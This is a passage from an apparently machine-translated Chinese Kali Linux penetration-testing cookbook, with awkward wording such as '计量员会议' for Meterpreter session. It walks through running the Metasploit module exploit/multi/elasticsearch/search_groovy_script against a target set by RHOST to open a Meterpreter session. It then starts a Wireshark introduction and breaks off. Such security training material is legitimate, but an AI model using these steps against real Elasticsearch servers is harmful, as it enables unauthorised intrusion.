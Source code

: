 3.  在这种情况下，我们选择利用漏洞：

```
 use exploit/multi/elasticsearch/search_groovy_script
```

以下屏幕截图显示了前面命令的输出：

![](img/d9555910-c534-433c-b376-1989c20ed3b2.png)

4.  我们使用`set RHOST x.x.x.x`命令设置 RHOST：

![](img/23726177-ae46-4a05-99fb-575043e5b4b9.png)

5.  我们运行以下命令：

```
 run
```

6.  我们已经准备好了计量员会议。

![](img/791bec9c-03e1-426c-918f-7a6590cd7e0d.png)

# 另见

*   *探索 msfconsole*配方

# 老好人

Wireshark 是世界上使用最多的网络协议分析器。它是免费和开源的。它主要用于网络故障排除和分析。在本食谱中，您将学习有关 Wireshark 的一些基本知识，以及我们如何使用它分析网络流量，以了解哪些信息实际流经我们的网络。

# 准备

Kali 已经预装了这个工具，所以让我们看看如何运行它！

# 怎么做。。。
